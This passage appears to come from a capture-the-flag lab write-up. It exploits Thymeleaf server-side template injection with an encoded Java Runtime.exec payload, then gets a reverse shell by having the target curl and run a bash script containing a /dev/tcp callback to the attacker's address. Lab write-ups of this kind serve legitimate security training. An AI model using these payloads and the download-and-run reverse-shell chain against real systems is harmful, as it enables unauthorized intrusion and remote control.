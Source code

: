<img src="Images/Image2.png" alt="Image2" width="75%"/>

However, passing in *{7 * 7} and #{7 * 7} yielded 49.
Since Thymeleaf runs java, you can pass in expressions using objects like *{T(java.lang.Runtime)} to execute java commands. To run bash commands, we can use a specific tool to parse commands in such a way that they are executed on their machine, at https://github.com/adeiarias/Java-SSTI-generator. For example, if I want to run whoami, I would have to turn it into a java SSTI payload first and then pass it into the search query.

```bash
whoami --> *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105))).getInputStream())}
```

Now that I have RCE, I can try getting a remote shell. For some reason, oneline reverse shell commands aren't working, so I download a bash script on their machine instead using a local python server and curl to get a reverse shell.

```bash
#My Machine, in a directory with the payload

nc -lvp 42069
python3 -m http.server 42068

#Their Machine, all commands here are translated into Java SSTI payloads and sent with burpsuite.

curl http://10.10.14.17:42068/yeet.sh -o /tmp/yeet.sh
http://10.10.14.17:42068/exp_file_credential -o /tmp/exp_file_credential
bash /tmp/yeet.sh

#Contents of yeet.sh

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.17/42069 0>&1
```
With that, I got a reverse shell and grabbed the user flag.
<img src="Images/Image3.png" alt="Image3" width="75%"/>
